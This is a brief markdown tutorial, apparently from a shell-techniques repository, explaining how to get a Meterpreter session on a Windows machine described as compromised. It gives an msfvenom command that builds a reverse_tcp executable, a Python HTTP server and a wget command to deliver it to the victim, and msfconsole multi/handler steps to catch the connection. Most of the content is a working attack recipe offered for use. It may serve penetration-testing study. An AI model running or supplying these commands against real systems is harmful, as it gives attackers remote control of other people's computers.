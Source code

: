 # Meterpreter shell

Lets first create our payload using the msfvenom and then send it on the compromised machine and then run it..

    msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o revshell.exe LHOST=<> LHPORT=<>

Now lets transfer this file on the compromised machine using http python server deploy it on the machine using 

    python -m http.server <port>

Downlaod the file on the compromised machine using the command 

    wget http://<ip>:<port>/revshell.exe


![image](https://github.com/Theincognitomode/What-the-shell/assets/73027020/12923781-5b0c-4c55-b295-577409c73722)

Now run the msfconsole 


- Select the module multi/handler
- set the LHOST and LPORT
- set the payload

Now type `run`

![image](https://github.com/Theincognitomode/What-the-shell/assets/73027020/3f6bf96c-2bbf-41c7-903f-1273a013da48)

Now just double click on the payload that you sent and you will get the meterpreter session..







